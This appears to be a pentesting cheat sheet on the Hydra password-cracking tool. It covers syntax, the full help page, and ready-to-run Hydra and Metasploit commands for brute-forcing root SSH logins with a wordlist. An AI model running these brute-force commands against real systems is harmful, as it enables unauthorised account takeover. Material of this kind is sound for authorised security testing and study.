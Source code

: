### Hydra
Hydra is a popular and powerful open-source tool used for online password-cracking and brute force attacks. It is designed to perform rapid dictionary attacks against various protocols, such as HTTP, FTP, SSH, Telnet, and more. Hydra supports multiple attack modes and can be used for both legitimate purposes (like security testing by system administrators) and malicious activities (when used without proper authorization).

1. **Installation:** 
	- Hydra is typically available in most Linux distributions and can be installed using package managers like apt or yum. Alternatively, you can download it from the GitHub repository.
2. **Command Syntax:**
	```bash
	hydra -L <USER_LIST> -P <PASSWORD_LIST> <TARGET> <PROTOCOL>
	```
	- `-L`: Specify the list of usernames (one per line) to try during the attack.
	- `-P`: Specify the list of passwords (one per line) to try during the attack.
	- `<TARGET>`: Specify the target host or IP address.
	- `<PROTOCOL>`: Specify the protocol to attack, e.g., http, ftp, ssh, etc.
3. **Example Usage:** 
	- As an example, let's say you want to perform a brute force attack on an FTP server with Hydra. You have a list of usernames in "users.txt" and a list of passwords in "passwords.txt". The target server's IP address is "192.168.1.100" and runs an FTP service.
	```bash
	hydra -L users.txt -P passwords.txt 192.168.1.100 ftp
	```
	- Hydra will then try all combinations of usernames and passwords from the provided lists until it finds the correct credentials or exhausts all possibilities.
4. **Other Options:**
	- Hydra offers various options and flags to customize the attack, such as specifying a specific port, setting time delays between attempts, using different attack modes, etc. You can check the Hydra documentation or run hydra --help to see all available options.

#### Help Page
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (dont wait 10 seconds)
  -S        perform an SSL connect
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -r        use a non-random shuffling method for option -x
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -K        do not redo failed attempts (good for -M mass scanning)
  -q        do not print messages about connection errors
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please dont use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)
These services were not compiled in: afp ncp oracle sapr3 smb2.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

### Attacking SSH
#### Hydra
```bash
$ hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.169.57.4 ssh -t 4 -V

$ hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V
```
#### Metasploit
```bash
$ msfconsole

msf5 > search ssh
msf5 > use /auxiliary/scanner/ssh/ssh_login
msf5 auxiliary (scanner/ssh/shh_login) > set USERNAME root
msf5 auxiliary (scanner/ssh/shh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary (scanner/ssh/shh_login) > set RHOSTS <Victim_IP>
msf5 auxiliary (scanner/ssh/shh_login) > set THREADS 10
msf5 auxiliary (scanner/ssh/shh_login) > set VERBOSE true
```